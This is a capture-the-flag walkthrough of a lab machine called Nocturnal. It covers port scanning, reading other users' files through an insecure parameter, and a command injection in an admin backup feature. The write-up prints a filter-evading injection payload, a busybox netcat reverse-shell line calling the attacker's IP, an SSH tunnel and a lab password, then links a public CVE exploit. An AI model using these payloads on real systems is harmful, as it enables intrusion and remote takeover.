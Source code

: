 #htb
## 🛰️ Reconnaissance

### Port Scanning

To begin the assessment, a full TCP SYN scan was conducted across all ports using the following command:

```bash
sudo nmap -sS -Pn -n -p- --min-rate 5000 10.10.11.64
```

![[Pasted image 20250727143751.png]]

Once open ports were identified, a service/version detection scan was executed against the relevant ports:

```bash
sudo nmap -sCV -Pn -n -p22,80 10.10.11.64
```

![[Pasted image 20250727143936.png]]

The scan revealed the hostname `http://nocturnal.htb`. The hostname was added to the `/etc/hosts` file for name resolution:

![[Pasted image 20250727144211.png]]

---

## 🌐 Web Exploration

Accessing the domain:

![[Pasted image 20250727144235.png]]

A test user account was created:

![[Pasted image 20250727144334.png]]

The upload functionality accepted the following file extensions: `.pdf`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.odt`.

![[Pasted image 20250727144655.png]]

By analyzing the request structure and upload behavior, it was possible to manipulate the `username` and `file` parameters to access files uploaded by other users:

![[Pasted image 20250727145006.png]]

---

## 🔍 Enumeration & File Discovery

A brute-force attack was launched to discover possible users and filenames:

![[Pasted image 20250727152938.png]]

Discovered:

- **Username:** `amanda`
    
- **File:** `privacy.odt`
    

![[Pasted image 20250727153012.png]]

The file was accessed and downloaded using:

```
http://nocturnal.htb/view.php?username=amanda&file=privacy.odt
```

![[Pasted image 20250727153131.png]]

Upon inspection, the file revealed Amanda’s credentials:

![[Pasted image 20250727153219.png]]

With these credentials, access to an admin panel was granted:

![[Pasted image 20250727153308.png]]

---

## ⚠️ Vulnerability in Admin Panel

Reviewing `admin.php` exposed a vulnerable **backup feature**:

![[Pasted image 20250727153329.png]]

### Vulnerability Summary:

- Admins could generate ZIP backups of the directory, protected by a user-supplied password.
    
- The password was passed to the `zip` command inside a `proc_open()` shell call.
    
- Input sanitization via `cleanEntry()` was weak, blacklisting characters like `;`, `&`, `|`, `$`, spaces, etc.
    
- No robust escaping or whitelisting was applied.
    

To test for command injection, I intercepted the POST request and modified the `password` parameter as follows:

```http
POST /admin.php HTTP/1.1
Host: nocturnal.htb
...
Content-Type: application/x-www-form-urlencoded
...

password=%0abash%09-c%09"whoami"&backup=
```

**Explanation of payload:**

- `%0a` — newline to terminate previous input
    
- `%09` — URL-encoded tab
    
- `bash -c "whoami"` — executes command
    

![](https://miro.medium.com/v2/resize:fit:700/1*v9oRPOPOuTWfR2fwdcHlHQ.png)

---

## 🐚 Reverse Shell

Once command injection was confirmed, a reverse shell was executed using BusyBox netcat:

```bash
password=%0abash%09-c%09"busybox%09nc%0910.10.14.20%094444%09-e%09/bin/bash”&backup=
```

![](https://miro.medium.com/v2/resize:fit:388/1*GEcOas5C_hPieT-HceJgtQ.png)

Listener on attack machine:

![[Pasted image 20250727143254.png]]

A shell was obtained, and SQLite was used to dump the user hashes from the internal database. The flag user was **tobias**:

![[Pasted image 20250727143507.png]]

The password hash was cracked using [https://hashes.com](https://hashes.com/).

![[Pasted image 20250727143326.png]]

SSH access was achieved with Tobias’s credentials:

![[Pasted image 20250727153703.png]]

---

## 🔁 Pivoting: Accessing Internal Services

During local enumeration, an internal service was discovered on port **8080**. To access it, an SSH tunnel was created:

```bash
ssh -L 8081:127.0.0.1:8080 tobias@nocturnal.htb
```

![](https://miro.medium.com/v2/resize:fit:700/1*rE930kDY1XVJl9wmgZ6ErA.png)

The forwarded port revealed an **ISPConfig** interface:

- **Username:** admin
    
- **Password:** slowmotionapocalypse
    

![](https://miro.medium.com/v2/resize:fit:361/1*8EfRE_MuT-yDx7WsCSFRcA.png)

---

## 🚨 Remote Code Execution (RCE)

ISPConfig was running a version vulnerable to:

> **CVE-2023-46818** — Remote Code Execution

A public exploit was retrieved from GitHub:

🔗 [https://github.com/engranaabubakar/CVE-2023-46818](https://github.com/engranaabubakar/CVE-2023-46818)

The exploit successfully escalated privileges to **root**, completing the challenge.

![](https://miro.medium.com/v2/resize:fit:700/1*3UbdM_Teou82L1XZcnoYPA.png)

---
